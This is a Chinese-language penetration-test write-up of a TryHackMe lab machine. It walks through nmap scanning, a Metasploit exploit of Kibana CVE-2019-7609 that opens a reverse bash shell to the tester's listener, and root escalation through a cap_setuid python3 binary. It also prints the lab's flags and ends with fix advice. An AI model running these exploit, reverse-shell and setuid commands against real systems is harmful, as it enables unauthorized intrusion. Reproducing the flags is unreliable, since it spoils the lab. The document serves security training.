

- THM Cap 渗透测试详细 Writeup (2026-06-04)

  **目标**: 10.49.138.22 - TryHackMe 靶场 (Cap)
  **授权**: THM 授权靶场，全 IP 范围，无限制
  **总耗时**: ~35 分钟
  **测试者**: yao
  **日期**: 2026-06-04

  ---

  ## 1. 信息搜集 (Reconnaissance)

  ### 1.1 初始端口扫描

  使用 Nmap 进行初步端口和服务识别：

  ```bash
  nmap -sV -sC -O 10.49.138.22
  ```

  **扫描结果**:
  - **22/tcp**: SSH - OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
  - **80/tcp**: HTTP - Apache httpd 2.4.18 (Ubuntu)
  - 操作系统推测: Ubuntu Linux
  - 网络距离: 3 hops
  - 运行时间: ~173 天

  ### 1.2 全端口扫描

  为了确认是否有其他隐藏端口，执行全端口扫描：

  ```bash
  nmap -Pn -p- --min-rate 5000 -T4 10.49.138.22
  ```

  **重要发现**:
  - **5044/tcp**: 开放 (lxi-evntsvc - Logstash Beats input)
  - **5601/tcp**: 开放 (esmagent - Kibana Web 界面)

  这两个端口强烈暗示目标运行 **Elastic Stack (ELK)**：
  - 5044 = Logstash Beats 输入端口
  - 5601 = Kibana Web 界面

  ### 1.3 服务识别

  对 5601 和 5044 端口进行详细探测：

  ```bash
  # Kibana 状态探测
  curl -s http://10.49.138.22:5601/api/status
  ```

  **Kibana 信息**:
  - **版本**: 6.5.4
  - **状态**: 无认证保护，可直接访问
  - **X-Pack**: 已安装 (security, watcher, ml, monitoring, graph, spaces)
  - **运行环境**: 容器环境 (cgroup 信息可见)
  - HTTP 响应 302 重定向到 `/app/kibana`

  5044 端口为 Logstash Beats input，使用 Lumberjack 协议，非 HTTP 服务。

  ---

  ## 2. Web 枚举

  ### 2.1 首页分析

  ```bash
  curl -s http://10.49.138.22
  ```

  首页内容包含 ASCII art 和关键提示：

  ```
  Welcome, "linux capabilities" is very interesting.
  ```

  这明确提示靶机主题与 **Linux capabilities** 相关，暗示权限提升路径。

  ### 2.2 目录枚举

  使用 gobuster 和 ffuf 进行目录爆破：

  ```bash
  gobuster dir -u http://10.49.138.22 -w /usr/share/wordlists/dirb/common.txt -t 50
  ffuf -u http://10.49.138.22/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 50
  ```

  **结果**: 未发现隐藏目录，仅返回默认 Apache 403 响应和 index.html。

  ---

  ## 3. 初始访问 (Initial Access)

  ### 3.1 漏洞识别

  Kibana 6.5.4 是 2018 年底发布的版本，存在已知严重漏洞：

  **CVE-2019-7609**: Kibana Timelion Prototype Pollution Remote Code Execution

  - **影响版本**: Kibana < 6.6.1 / < 5.6.15
  - **漏洞类型**: Prototype Pollution (原型链污染)
  - **利用组件**: Timelion + Canvas
  - **CVSS 评分**: 9.8 (Critical)

  ### 3.2 MSF 漏洞利用

  在 Metasploit 中搜索并配置利用模块：

  ```bash
  msfconsole
  search CVE-2019-7609
  use exploit/linux/http/kibana_timelion_prototype_pollution_rce
  ```

  **模块配置**:
  ```bash
  set RHOSTS 10.49.138.22
  set RPORT 5601
  set LHOST 192.168.241.203
  set LPORT 4444
  set TARGETURI /
  ```

  **Payload**: `cmd/unix/reverse_bash` (bash 反向 shell)

  ### 3.3 漏洞验证

  ```bash
  check
  ```

  **结果**: `The target appears to be vulnerable. Exploitable Version Detected: 6.5.4`

  ### 3.4 执行利用

  ```bash
  exploit
  ```

  **利用过程**:
  1. Polluting Prototype in Timelion (污染 Timelion 原型链)
  2. Triggering payload execution via canvas socket (通过 Canvas socket 触发 payload)
  3. 等待 shell 连接

  **成功获取 shell**:
  ```
  [*] Command shell session 1 opened (192.168.241.203:4444 -> 10.49.138.22:55094)
  ```

  ### 3.5 Shell 升级

  获取的 shell 是基本 sh，需要升级为交互式 bash：

  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```

  **升级后环境**:
  - 用户: **kiba** (uid=1000)
  - 家目录: `/home/kiba`
  - 用户组: adm, cdrom, **sudo**, dip, plugdev, lpadmin, sambashare
  - 注意: kiba 用户在 sudo 组，但 `sudo -l` 需要密码

  ---

  ## 4. 权限提升 (Privilege Escalation)

  ### 4.1 获取 User Flag

  ```bash
  cat /home/kiba/user.txt
  ```

  **User Flag**: `THM{1s_easy_pwn3d_k1bana_w1th_rce}`

  ### 4.2 Capabilities 枚举

  根据首页提示，重点枚举 Linux capabilities：

  ```bash
  getcap -r / 2>/dev/null
  ```

  **关键发现**:
  ```
  /home/kiba/.hackmeplease/python3 = cap_setuid+ep
  /usr/bin/mtr = cap_net_raw+ep
  /usr/bin/traceroute6.iputils = cap_net_raw+ep
  /usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
  ```

  ### 4.3 Capabilities 分析

  **`/home/kiba/.hackmeplease/python3`** 具有 **`cap_setuid+ep`**：

  - **cap_setuid**: 允许进程设置任意用户 ID (setuid)
  - **+ep**: Effective + Permitted (有效权限 + 允许权限)
  - 这意味着该 python3 可以设置 UID 为 0 (root)

  **文件属性**:
  ```bash
  ls -la /home/kiba/.hackmeplease/
  # -rwxr-xr-x 1 root root 4452016 Mar 31 2020 python3
  ```

  文件属于 root，但 kiba 可以执行。

  ### 4.4 利用 cap_setuid 提权

  使用具有 cap_setuid 的 python3 设置 UID 为 0 并启动 bash：

  ```bash
  /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
  ```

  **提权原理**:
  1. `os.setuid(0)` 将当前进程 UID 设置为 0 (root)
  2. `os.system("/bin/bash")` 启动一个新的 bash shell
  3. 新 shell 继承 UID 0，获得 root 权限

  **提权成功**:
  ```
  root@ubuntu:/home/kiba#
  ```

  ### 4.5 获取 Root Flag

  ```bash
  cat /root/root.txt
  ```

  **Root Flag**: `THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}`

  ---

  ## 5. 技术细节

  ### 5.1 Kibana CVE-2019-7609 漏洞原理

  **漏洞类型**: Prototype Pollution (原型链污染)

  **影响组件**:
  - **Timelion**: Kibana 的时间序列可视化工具
  - **Canvas**: Kibana 的数据展示工具

  **漏洞原理**:
  1. Timelion 的表达式引擎在处理用户输入时，未正确过滤对象属性
  2. 攻击者可以通过 `__proto__` 或 `constructor.prototype` 污染 JavaScript 原型链
  3. 污染后的原型链影响 Canvas 组件的代码执行
  4. 最终导致服务器端代码执行 (RCE)

  **MSF 利用流程**:
  1. 发送恶意 Timelion 表达式，污染 Object.prototype
  2. 触发 Canvas 的 socket 连接
  3. Canvas 在执行过程中使用被污染的原型方法
  4. 执行攻击者控制的代码，启动反向 shell

  ### 5.2 Linux Capabilities 提权原理

  **Capabilities 背景**:
  - Linux 2.2+ 引入 capabilities，将 root 权限细分为多个独立权限
  - 传统 SUID 二进制文件使用文件所有者权限运行
  - Capabilities 允许更细粒度的权限控制

  **cap_setuid+ep 含义**:
  - **cap_setuid**: 允许进程调用 setuid() 设置任意 UID
  - **+e (Effective)**: 当前进程有效权限集
  - **+p (Permitted)**: 进程允许获取的权限集

  **提权向量**:

  ```python
  import os
  os.setuid(0)  # 设置 UID 为 0 (root)
  os.system("/bin/bash")  # 启动 root shell
  ```

  **为什么有效**:

  - 普通用户无法调用 `setuid(0)`，因为需要 CAP_SETUID 权限
  - 但具有 `cap_setuid+ep` 的二进制文件可以执行此操作
  - 即使文件所有者是 root，执行者 (kiba) 也能获得该 capability

  

  ---

  ## 6. 攻击路径总结

  ```
  信息搜集
    → Nmap 全端口扫描 (22/80/5044/5601)
    → 识别 Elastic Stack (Kibana 6.5.4)
  
  初始访问
    → Kibana CVE-2019-7609 (Prototype Pollution RCE)
    → MSF exploit/linux/http/kibana_timelion_prototype_pollution_rce
    → 获取 kiba 用户 shell
    → 升级 shell (python3 pty)
  
  权限提升
    → 枚举 capabilities (getcap -r /)
    → 发现 /home/kiba/.hackmeplease/python3 (cap_setuid+ep)
    → 利用 python3 设置 UID 0
    → 获取 root shell
  
  Flag 获取
    → user.txt: THM{1s_easy_pwn3d_k1bana_w1th_rce}
    → root.txt: THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
  ```

  ---

  ## 7. 修复建议

  ### 7.1 Kibana 漏洞修复
  - **升级 Kibana**: 升级到 6.6.1+ 或 5.6.15+
  - **启用认证**: 配置 Kibana 安全认证，不要暴露无认证的 Kibana 实例
  - **网络隔离**: 将 Kibana 放置在内部网络，限制外部访问
  - **WAF 防护**: 部署 Web 应用防火墙，过滤恶意请求

  ### 7.2 Capabilities 风险修复
  - **移除不必要的 capabilities**: `setcap -r /home/kiba/.hackmeplease/python3`
  - **审计系统 capabilities**: 定期执行 `getcap -r /` 检查异常
  - **最小权限原则**: 不要给普通用户可执行文件赋予 cap_setuid
  - **使用容器**: 在容器环境中运行应用，限制 capabilities

  ---

  ## 8. 靶机状态

  - **状态**: ✅ 全部完成
  - **获取 Flags**: 2/2 (user.txt + root.txt)
  - **总耗时**: ~35 分钟
  - **初始访问**: Kibana CVE-2019-7609 (MSF)
  - **权限提升**: Linux Capabilities (cap_setuid)
